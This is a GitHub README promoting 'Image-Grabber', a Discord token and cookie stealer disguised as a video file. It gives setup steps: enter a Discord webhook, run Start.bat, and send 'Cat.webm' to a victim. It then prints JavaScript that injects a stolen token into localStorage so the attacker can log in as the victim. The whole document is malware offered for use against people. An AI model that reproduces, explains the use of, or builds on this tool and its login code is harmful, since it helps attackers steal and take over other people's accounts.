 ###  [Download](https://github.com/We2oz/Image-Grabber/archive/refs/heads/main.zip) - [Discord](https://discord.gg/vfJknm825G)


**Image Tool By OK.@**


- edit file Inje.js
- enter your discord webhook 
- open Start.bat
- send Video Cat.webm for the victim


Discord Token & Cookies Logger - Grabber 
with a video # 6 sec ~ 
By OK. https://discord.gg/vfJknm825G




- login code
```let token = "";

function login(token) {
    setInterval(() => {
      document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
    }, 50);
    setTimeout(() => {
      location.reload();
    }, 2500);
  }

login(token);
```
